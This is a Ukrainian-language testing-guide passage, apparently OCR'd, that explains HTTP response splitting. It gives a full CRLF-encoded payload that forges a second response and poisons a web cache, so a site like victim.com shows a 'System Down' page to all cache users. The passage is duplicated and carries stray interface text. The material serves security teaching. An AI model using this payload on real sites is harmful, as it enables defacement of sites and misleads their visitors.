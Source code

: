 **_advanced%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>_**

Відповідь вразливої програми буде наступною:

```
HTTP/1.1 302 Moved Temporarily
Date: Sun, 03 Dec 2005 16:22:19 GMT
Location: http://victim.com/main.jsp?interface=advanced
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 35

<html>Sorry,%20System%20Down</html>
<other data>
```

Веб-кеш побачить дві різні відповіді, тож якщо атакуючий надсилатиме, безпосередньо після першого запиту, другий, який просить /index.html, веб-кеш зіставить цей запит з другою відповіддю і закешує її вміст. Таким чином, всі наступні запити, спрямовані на victim.com/index.html і проходячи через цей веб-кеш, отримають повідомлення "система відключена". Таким чином, атакуючий може ефективно дефейсити сайт для всіх користувачів, які використовують цей веб-кеш (весь Інтернет, якщо веб-кеш є зворотнім проксі для веб-застосунку).

markdown
Copy code
Нехай в попередньому прикладі тестувальник передає наступні дані як параметр інтерфейсу:

```plaintext
advanced%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>
```

Відповідь вразливої програми буде наступною:

```
HTTP/1.1 302 Moved Temporarily
Date: Sun, 03 Dec 2005 16:22:19 GMT
Location: http://victim.com/main.jsp?interface=advanced
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 35

<html>Sorry,%20System%20Down</html>
<other data>
```

Веб-кеш побачить дві різні відповіді, тож якщо атакуючий надсилатиме, безпосередньо після першого запиту, другий, який просить /index.html, веб-кеш зіставить цей запит з другою відповіддю і закешує її вміст. Таким чином, всі наступні запити, спрямовані на victim.com/index.html і проходячи через цей веб-кеш, отримають повідомлення "система відключена". Таким чином, атакуючий може ефективно дефейсити сайт для всіх користувачів, які використовують цей веб-кеш (весь Інтернет, якщо веб-кеш є зворотнім проксі для веб-застосунку).
